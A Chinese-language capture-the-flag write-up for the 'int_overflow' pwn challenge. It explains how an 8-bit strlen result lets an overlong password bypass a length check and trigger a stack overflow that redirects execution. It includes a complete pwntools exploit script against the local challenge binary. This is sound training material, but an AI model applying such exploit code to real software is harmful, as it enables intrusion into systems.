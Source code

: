 # 攻防世界: int_overflow

## **[目标]**
利用整数溢出，栈溢出，ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**


![](./pic/1.png)

- read 函数处可以进行溢出，但是需要经过 check_passwd 函数才能将跳出login。现在再看一下 check_passwd 函数内部，


![](./pic/2.png)
有一个疑似可能造成整数溢出的一个点，我们再看一下此处的汇编代码。


![](./pic/3.png)
call strlen 之后 返回值放在了al寄存器中，这是一个八位的积存器，也就是说如果 s 字符串的长度 大于255 就会造成 整数溢出。

那我们利用这个漏洞干什么呢，我们需要进到else里，将 read 读进来的 s 复制到 dest 中，是一个可以利用的栈溢出。

现在我们知道了可以通过整数溢出到达 栈溢出漏洞，修改程序执行流，使程序跳转到 what_is_this 中。


![](./pic/4.png)
这样我们可以构造payload：

`payload = 'a'*24 + p32(addr_whatisthis)`
` payload = payload.ljust(261,"a")`

完整payload：


```python
from pwn import *

p = process("./int_overflow")

p.sendlineafter("choice:","1")
p.sendlineafter("username:\n","YmCold")

payload = ""
payload += "A"*24
payload += p32(0x804868b)
payload = payload.ljust(261,"A")

p.sendlineafter("passwd:\n",payload)
print p.recvall()
```
## **[参考阅读]**

[整数溢出](https://blog.csdn.net/ioio_jy/article/details/50576353)